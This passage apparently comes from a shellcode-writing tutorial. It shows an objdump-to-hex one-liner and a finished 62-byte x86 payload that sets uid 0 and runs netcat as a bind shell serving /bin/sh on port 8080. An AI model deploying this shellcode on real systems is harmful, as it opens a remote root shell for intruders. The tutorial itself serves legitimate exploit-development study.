 ![shellcode-c137-test4](/images/shellcode-c137-test4.png)

There are no null bytes. What's left is to extract the opcodes. You could do this by hand or use the following one-liner
(I took it from [0day.work](https://0day.work/writing-my-first-shellcode-iptables-p-input-accept/)):

```bash
root@kali:~# for i in `objdump -d shellcode-c137 | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$' ` ; do echo -n "\x$i" ; done
```
It takes the output of *objdump -d shellcode-c137*{: style="color: LightGreen"}, then replaces tabs with spaces, then replaces spaces with newlines and gets only the lines consisting of hex values. It loops through the hex values prepending \x and prints them.

And the resulting shellcode is:
```
\x31\xdb\x6a\x17\x58\xcd\x80\x31\xd2\x52
\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e
\x89\xe3\x52\x6a\x30\x66\x68\x30\x38\x68
\x2d\x6c\x70\x38\x89\xe0\x52\x6a\x68\x68
\x69\x6e\x2f\x73\x68\x2d\x65\x2f\x62\x89
\xe1\x52\x51\x50\x53\x89\xe1\x6a\x0b\x58
\xcd\x80
```

```python
>>> len('\x31\xdb\x6a\x17\x58\xcd\x80\x31\xd2\x52\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x89\xe3\x52\x6a\x30\x66\x68\x30\x38\x68\x2d\x6c\x70\x38\x89\xe0\x52\x6a\x68\x68\x69\x6e\x2f\x73\x68\x2d\x65\x2f\x62\x89\xe1\x52\x51\x50\x53\x89\xe1\x6a\x0b\x58\xcd\x80')
62
```
